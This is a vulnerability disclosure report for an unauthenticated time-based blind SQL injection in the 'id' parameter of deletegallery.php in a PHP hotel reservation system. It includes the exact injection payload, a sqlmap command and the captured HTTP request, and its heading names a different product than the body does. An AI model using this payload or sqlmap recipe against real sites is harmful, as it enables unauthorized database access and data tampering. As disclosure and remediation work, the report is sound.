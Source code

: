 # SourceCodester Petrol Pump Management Software  deletegallery.php  sql injection

# NAME OF AFFECTED PRODUCT(S)

- Online Hotel Reservation System In PHP With Source Code

## Vendor Homepage

- [Online Hotel Reservation System In PHP With Source Code - Source Code & Projects](https://code-projects.org/online-hotel-reservation-system-in-php-with-source-code/)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- K1nako

## VERSION(S)

- V1.0

## Software Link

- https://download.code-projects.org/details/f2af5165-f165-4d1c-9648-394dc5119f9d

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'deletegallery.php' file of the 'Online Hotel Reservation System In PHP With Source Code' project. The reason for this issue is that attackers inject malicious code from the parameter "id" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Online Hotel Reservation System In PHP With Source Code", K1nako discovered a critical SQL injection vulnerability in the "deletegallery.php" file. This vulnerability stems from insufficient user input validation of the 'id' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- time-based blind

## Vulnerability location:

- 'id' parameter

## Payload:

```
id=1'+(SELECT 0x78444778 WHERE 8849=8849 AND (SELECT 7681 FROM (SELECT(SLEEP(5)))IuYL))+'
```

```
Parameter: #1* (URI)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://192.168.248.130:8885/admin/deletegallery.php?id=1'+(SELECT 0x78444778 WHERE 8849=8849 AND (SELECT 7681 FROM (SELECT(SLEEP(5)))IuYL))+'
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
```

![image-20250728165401550](assets/image-20250728165401550.png)



## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python3 sqlmap.py -r C:\Users\14420\Desktop\data.txt --dbs -v 3 --batch --level 5
```

```
//data.txt
GET /admin/deletegallery.php?id=1* HTTP/1.1
Host: 192.168.248.130:8885
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=erobstmt8j7vlp6ka4ath65un3
Connection: keep-alive

```

# Attack results

![image-20250728165625314](assets/image-20250728165625314.png)

# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.